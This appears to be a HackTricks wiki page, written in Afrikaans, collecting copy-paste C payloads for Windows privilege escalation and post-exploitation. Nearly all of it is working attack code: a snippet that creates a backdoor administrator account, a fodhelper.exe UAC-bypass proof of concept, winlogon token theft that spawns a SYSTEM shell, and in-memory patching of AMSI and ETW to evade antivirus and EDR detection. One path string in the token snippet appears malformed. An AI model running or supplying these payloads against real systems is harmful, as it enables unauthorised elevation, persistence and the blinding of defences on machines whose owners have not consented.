 # Windows C Payloads

{{#include ../../banners/hacktricks-training.md}}

Hierdie bladsy versamel **klein, self-contained C snippette** wat handig is tydens Windows Lokale Privilege Escalation of post-exploitation. Elke payload is ontwerp om **copy-paste vriendelik** te wees, vereis slegs die Windows API / C runtime, en kan gecompileer word met `i686-w64-mingw32-gcc` (x86) of `x86_64-w64-mingw32-gcc` (x64).

> ⚠️  Hierdie payloads neem aan dat die proses reeds die minimum regte het wat nodig is om die aksie uit te voer (bv. `SeDebugPrivilege`, `SeImpersonatePrivilege`, of medium-integrity konteks vir 'n UAC omseiling). Hulle is bedoel vir **red-team of CTF omgewings** waar die benutting van 'n kwesbaarheid arbitrêre inheemse kode-uitvoering gelewer het.

---

## Voeg plaaslike administrateur gebruiker by
```c
// i686-w64-mingw32-gcc -s -O2 -o addadmin.exe addadmin.c
#include <stdlib.h>
int main(void) {
system("net user hacker Hacker123! /add");
system("net localgroup administrators hacker /add");
return 0;
}
```
---

## UAC Bypass – `fodhelper.exe` Registrasie Hijack (Medium → High integriteit)
Wanneer die vertroude binêre **`fodhelper.exe`** uitgevoer word, vra dit die registrasie pad hieronder **sonder om die `DelegateExecute` werkwoord te filter**. Deur ons opdrag onder daardie sleutel te plant, kan 'n aanvaller UAC omseil *sonder* om 'n lêer na skyf te laat val.

*Registrasie pad gevra deur `fodhelper.exe`*
```
HKCU\Software\Classes\ms-settings\Shell\Open\command
```
'n Minimale PoC wat 'n verhoogde `cmd.exe` oopmaak:
```c
// x86_64-w64-mingw32-gcc -municode -s -O2 -o uac_fodhelper.exe uac_fodhelper.c
#define _CRT_SECURE_NO_WARNINGS
#include <windows.h>
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int main(void) {
HKEY hKey;
const char *payload = "C:\\Windows\\System32\\cmd.exe"; // change to arbitrary command

// 1. Create the vulnerable registry key
if (RegCreateKeyExA(HKEY_CURRENT_USER,
"Software\\Classes\\ms-settings\\Shell\\Open\\command", 0, NULL, 0,
KEY_WRITE, NULL, &hKey, NULL) == ERROR_SUCCESS) {

// 2. Set default value => our payload
RegSetValueExA(hKey, NULL, 0, REG_SZ,
(const BYTE*)payload, (DWORD)strlen(payload) + 1);

// 3. Empty "DelegateExecute" value = trigger (")
RegSetValueExA(hKey, "DelegateExecute", 0, REG_SZ,
(const BYTE*)"", 1);

RegCloseKey(hKey);

// 4. Launch auto-elevated binary
system("fodhelper.exe");
}
return 0;
}
```
*Getoets op Windows 10 22H2 en Windows 11 23H2 (Julie 2025 patches). Die omseiling werk steeds omdat Microsoft die ontbrekende integriteitskontrole in die `DelegateExecute` pad nie reggestel het nie.*

---

## Genereer SYSTEM shell deur token duplisering (`SeDebugPrivilege` + `SeImpersonatePrivilege`)
As die huidige proses **albei** `SeDebug` en `SeImpersonate` regte het (tipies vir baie diensrekeninge), kan jy die token van `winlogon.exe` steel, dit dupliseer, en 'n verhoogde proses begin:
```c
// x86_64-w64-mingw32-gcc -O2 -o system_shell.exe system_shell.c -ladvapi32 -luser32
#include <windows.h>
#include <tlhelp32.h>
#include <stdio.h>

DWORD FindPid(const wchar_t *name) {
PROCESSENTRY32W pe = { .dwSize = sizeof(pe) };
HANDLE snap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
if (snap == INVALID_HANDLE_VALUE) return 0;
if (!Process32FirstW(snap, &pe)) return 0;
do {
if (!_wcsicmp(pe.szExeFile, name)) {
DWORD pid = pe.th32ProcessID;
CloseHandle(snap);
return pid;
}
} while (Process32NextW(snap, &pe));
CloseHandle(snap);
return 0;
}

int wmain(void) {
DWORD pid = FindPid(L"winlogon.exe");
if (!pid) return 1;

HANDLE hProc   = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, FALSE, pid);
HANDLE hToken  = NULL, dupToken = NULL;

if (OpenProcessToken(hProc, TOKEN_DUPLICATE | TOKEN_ASSIGN_PRIMARY | TOKEN_QUERY, &hToken) &&
DuplicateTokenEx(hToken, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &dupToken)) {

STARTUPINFOW si = { .cb = sizeof(si) };
PROCESS_INFORMATION pi = { 0 };
if (CreateProcessWithTokenW(dupToken, LOGON_WITH_PROFILE,
L"C\\\Windows\\\System32\\\cmd.exe", NULL, CREATE_NEW_CONSOLE,
NULL, NULL, &si, &pi)) {
CloseHandle(pi.hProcess);
CloseHandle(pi.hThread);
}
}
if (hProc) CloseHandle(hProc);
if (hToken) CloseHandle(hToken);
if (dupToken) CloseHandle(dupToken);
return 0;
}
```
Vir 'n dieper verduideliking van hoe dit werk, sien:
{{#ref}}
sedebug-+-seimpersonate-copy-token.md
{{#endref}}

---

## In-Geheue AMSI & ETW Patching (Verdedigings Ontwyking)
Meeste moderne AV/EDR enjinne staat op **AMSI** en **ETW** om kwaadwillige gedrag te ondersoek. Patching van beide interfaces vroeg binne die huidige proses voorkom dat skrip-gebaseerde payloads (bv. PowerShell, JScript) gescan word.
```c
// gcc -o patch_amsi.exe patch_amsi.c -lntdll
#define _CRT_SECURE_NO_WARNINGS
#include <windows.h>
#include <stdio.h>

void Patch(BYTE *address) {
DWORD oldProt;
// mov eax, 0x80070057 ; ret  (AMSI_RESULT_E_INVALIDARG)
BYTE patch[] = { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 };
VirtualProtect(address, sizeof(patch), PAGE_EXECUTE_READWRITE, &oldProt);
memcpy(address, patch, sizeof(patch));
VirtualProtect(address, sizeof(patch), oldProt, &oldProt);
}

int main(void) {
HMODULE amsi  = LoadLibraryA("amsi.dll");
HMODULE ntdll = GetModuleHandleA("ntdll.dll");

if (amsi)  Patch((BYTE*)GetProcAddress(amsi,  "AmsiScanBuffer"));
if (ntdll) Patch((BYTE*)GetProcAddress(ntdll, "EtwEventWrite"));

MessageBoxA(NULL, "AMSI & ETW patched!", "OK", MB_OK);
return 0;
}
```
*Die bogenoemde opdatering is proses-lokaal; om 'n nuwe PowerShell te begin na dit uitgevoer is, sal sonder AMSI/ETW-inspeksie uitgevoer word.*

---

## Verwysings
* Ron Bowes – “Fodhelper UAC Bypass Deep Dive” (2024)
* SplinterCode – “AMSI Bypass 2023: The Smallest Patch Is Still Enough” (BlackHat Asia 2023)

{{#include ../../banners/hacktricks-training.md}}
